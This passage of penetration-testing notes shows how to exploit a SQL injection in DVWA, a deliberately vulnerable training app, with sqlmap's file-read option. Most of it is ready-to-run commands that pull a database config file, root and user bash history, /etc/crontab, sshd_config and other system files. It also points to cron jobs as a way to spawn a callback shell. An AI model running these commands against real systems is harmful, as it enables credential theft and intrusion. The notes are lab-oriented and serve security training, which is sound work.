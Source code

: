 - Retrieve database config file. You have to lookup of what web technology it's using such as, a **content management system (CMS)** like wordpress. Find the absolute path of the [[Credentials#^bc9e6e|database config file]] after enumeration phase for the web root directory.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/var/www/html/dvwa/config.php"
```

- Retrieve history commands. You can find more in the [[Credentials|privilege escalation credentials]] section.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/home/<username>/.ssh/.bash_history"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/root/.ssh/.bash_history"
```

##### 2.1.3.3 - Privilege Escalation

- CronJobs may contain backup files that is worth **harvesting the data**. Moreover, there is a possible attack vector to spawn a callback shell. Be on the lookout.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/etc/crontab"
```

##### 2.1.3.4 - Config Files

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/etc/ssh/sshd_config"
```

##### 2.1.3.5 - Hardware

- Check uptime

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/proc/uptime
```

- Enumerate mounted drives and network shares.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/etc/fstab"
```

- Enumerate CPU cores

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/proc/cpuinfo"
```
